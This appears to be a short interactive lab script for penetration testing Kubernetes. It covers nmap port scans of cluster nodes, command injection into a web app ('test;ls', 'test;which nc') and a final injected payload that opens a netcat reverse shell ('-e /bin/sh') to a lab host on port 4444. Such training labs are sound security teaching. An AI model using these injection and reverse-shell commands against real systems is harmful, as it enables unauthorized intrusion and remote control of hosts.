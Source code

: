 ### Scan for open ports might take some time

`nmap <Copy Link from the above scenerio of master node> -p- -sV -oA k8s-pt-full-scan`{{execute}}

`nmap <Copy Link from the above scenerio of worker node> -p- -sV -oA k8s-pt-full-scan`{{execute}}

### Enter test;%20ls in the webapp

`echo "RG9ja2VyZmlsZQphcGkucHkKcmVxdWlyZW1lbnRzLnR4dAo=" | base64 --decode`{{execute}}

### Enter test;which%20nc

`echo "L3Vzci9iaW4vbmMK" | base64 --decode`{{execute}}

`test;nc%20[[HOST_SUBDOMAIN]]-80-[[KATACODA_HOST]].[[KATACODA_DOMAIN]]%204444%20-e%20/bin/sh`{{copy}}
